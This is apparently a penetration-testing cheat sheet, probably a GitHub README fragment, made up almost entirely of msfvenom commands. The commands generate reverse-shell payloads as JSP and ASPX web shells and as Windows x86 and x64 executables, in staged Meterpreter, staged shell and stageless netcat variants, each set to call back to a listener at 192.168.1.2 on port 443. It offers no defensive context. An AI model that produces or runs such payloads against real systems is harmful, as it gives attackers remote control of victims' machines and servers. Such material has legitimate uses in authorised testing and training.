 ### JSP

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.2 LPORT=443 -f raw > reverse.jsp

```

### Aspx

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.2 LPORT=443 -f aspx -o reverse.aspx

```

### Windows

`Meterpreter (Metasploit Listener multi/handler) [Staged]`

`x86`

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f exe > reverse.exe

```

`x64`

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f exe > reverse.exe

```

`Shell (Metasploit Listener multi/handler) [Staged]`

`x86`

```
msfvenom -p windows/shell/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f exe > reverse.exe

```

`x64`

```
msfvenom -p windows/x64/shell/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f exe > reverse.exe

```

`Shell (Netcat Listener) [Stageless]`

`x86`

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.2 LPORT=443 -f exe > reverse.exe

```

`x64`

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.2 LPORT=443 -f exe > reverse.exe

```
